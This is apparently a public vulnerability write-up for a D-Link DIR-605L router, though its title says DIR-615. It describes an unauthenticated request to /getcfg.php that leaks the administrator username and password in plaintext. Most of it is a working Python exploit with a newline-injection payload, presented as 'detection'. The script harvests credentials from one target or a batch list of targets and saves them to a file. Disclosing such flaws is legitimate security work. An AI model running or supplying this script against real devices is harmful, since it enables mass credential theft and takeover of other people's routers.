 # D-LINK-DIR-615
## Sensitive information disclosure vulnerability in D-Link dir-605l B2 2.01mt

Sensitive information disclosure vulnerability exists in D-Link dir-605l B2 2.01mt. An attacker can obtain a user name and password by forging a post request to the / getcfg.php page


## harm

An attacker can access this page without authorization, obtain the user name and password in plaintext, and obtain background management privileges after logging in to the background


## Test method
1. Visit the d-link-dir-605l background login page

![image](https://user-images.githubusercontent.com/90023952/131959536-11a1cf7b-bd26-4ef6-9c52-5ae002c44811.png)

2. Enter any password, then grab the packet and modify the packet content as follows

![image](https://user-images.githubusercontent.com/90023952/131959930-bdc051b1-e234-4803-972d-adf58ddeb554.png)

![image](https://user-images.githubusercontent.com/90023952/131959858-ace71dc7-41c0-4f25-852d-ecc01f2016fd.png)

3.Use the obtained user name and password to successfully log in to the background

![image](https://user-images.githubusercontent.com/90023952/131960031-dc264f90-9e09-48df-9e01-b0860fc3d637.png)

## Script automation detection

```
import requests
import argparse
import re
import urllib3
urllib3.disable_warnings()
parser = argparse.ArgumentParser(description='api help')
parser.add_argument('-u','--url', help='Please Input a url!',default='')
parser.add_argument('-r','--read', help='Please Input a file!',default='')
args=parser.parse_args()
url=args.url
file=args.read

if url !="":
    url=url+"/getcfg.php"
    header={
    "User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36",
    "Content-Type":"application/x-www-form-urlencoded",
    "Cookie":"",
    "X-Forwarded-For":"127.0.0.1"
            }
    data = ("SERVICES=DEVICE.ACCOUNT&AUTHORIZED_GROUP=1%0a")
    response=requests.post(url,data=data,headers=header,verify=False,timeout=10)
    print(response.text)
    if  "DEVICE.ACCOUNT" in response.text and response.status_code == 200:
        print("[" + url + "]" + "[===dangerous===]")
    else:
        print("["+url+"]"+"[safe]")

if file !="":
    txt=file
    f=open(txt,'r+')
    for i in f.readlines():
        url=i.strip()
        url=url+"/getcfg.php"
        header={
        "User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36",
        "Content-Type":"application/x-www-form-urlencoded",
        "Cookie":"",
        "X-Forwarded-For": "127.0.0.1"
        }
        data = ("SERVICES=DEVICE.ACCOUNT&AUTHORIZED_GROUP=1%0a")
        try:
            response=requests.post(url,data=data,headers=header,verify=False,timeout=10)
            if "DEVICE.ACCOUNT" in response.text and response.status_code == 200:
                name = re.findall('<name>.*', response.text)
                password = re.findall('<password>.*', response.text)
                print("[" + url + "]" + "[===dangerous===]")
                w = open("DIR-615-Vulnerability-file.txt", "a")
                w.write(url + '\r\n' + repr(name) + repr(password) + '\r\n')
            else:
                print("[" + url + "]" + "[safe]")
        except Exception as e:
            print("["+url+"]"+"[safe]",format(e))


```
1. Detect a single URL

python D-LINK-DIR-615.py -u http://xxx.xxx.xxx.xxx

![image](https://user-images.githubusercontent.com/90023952/131964546-cfb63863-5e3e-46a0-a237-94076f6a47d2.png)

2. Batch inspection

python D-LINK-DIR-615.py -r file.txt

![image](https://user-images.githubusercontent.com/90023952/131964614-304bcbfe-3938-4375-93ae-da72ee297b54.png)

After the batch detection script is executed, a file named "dir-615-vulnerability-file. TXT" will be generated in the current folder, with the contents of vulnerability URL and explored user name and password

![image](https://user-images.githubusercontent.com/90023952/131964740-c30b05a7-86e2-4345-8b10-a63e82d6df98.png)

![image](https://user-images.githubusercontent.com/90023952/131964819-83b55c78-5dc5-48a7-b62a-acab7258a838.png)




